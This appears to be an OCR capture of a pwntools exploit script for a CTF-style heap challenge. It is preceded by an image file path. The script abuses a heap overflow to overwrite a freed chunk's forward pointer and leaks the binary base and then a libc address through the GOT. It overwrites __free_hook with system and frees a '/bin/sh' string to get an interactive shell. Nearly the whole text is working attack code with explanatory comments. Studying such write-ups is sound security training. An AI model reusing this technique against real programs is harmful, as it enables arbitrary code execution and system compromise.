 ```
create(2)
create(3)
free(1)
free(2)
create(4) # same addr as q2

# this leaves the fwd pointer of q2 but resets the function pointer to print_question
# note that this fwd pointer should point to the first chunk of q1
heap_chunk_1_of_1 = u32(ask(4)[:4])
free(4)

# now that q4 (well q2) is free, we want to overwrite its fwd pointer to the first chunk of any question,
# so we can read the print_question function address
# q3 is untarnished so far, so that will have the function pointer
heap_chunk_1_of_3 = heap_chunk_1_of_1 + (0x20*2*2) # each question has 2 0x20 chunks
overflow = b'A'*0x1c # fill q1's 2nd chunk
overflow += p32(0x21) # preserve q2's 1st chunk metadata
overflow += p32(heap_chunk_1_of_3) # overwrite q2's fwd pointer in chunk 1
set(1, overflow)

# since we overwrote the fwd pointer of q2's first chunk to point to q3's first chunk
# the first newly allocated chunk for q5 will be q2's first chunk
# but the 2nd newly allocated chunk for q5 will be q3's first chunk (which has the function pointer)
create(5) # same addr as q2 and q4

# leak the print_question function address and overcome PIE
print_question_addr = u32(ask(5)[:4])
binary_base = print_question_addr - elf.symbols['print_question']
elf.address = binary_base

# leak a libc address by reading from the GOT's fgets entry
set(1, gen_addr_payload(print_question_addr, elf.got['fgets']))
fgets_addr = u32(ask(5)[:4])
libc_base = fgets_addr - libc.symbols['fgets']
libc.address = libc_base

# since there's full RELRO we can't write to the GOT
# so instead we overwrite the __free_hook (used by free()) with system()
set(1, gen_addr_payload(print_question_addr, libc.symbols['__free_hook']))
set(5, p32(libc.symbols['system'])) # remember q2 and q5 point to same memory

# q0 is untarnished, so we can set it's string to /bin/sh
set(0, "/bin/sh\x00")

# since the string (2nd chunk) of a question is freed before the first chunk
# free will be called with the address of our /bin/sh string first
# since __free_hook was overwritten this has the effect of system("/bin/sh")
free(0)

p.interactive()
```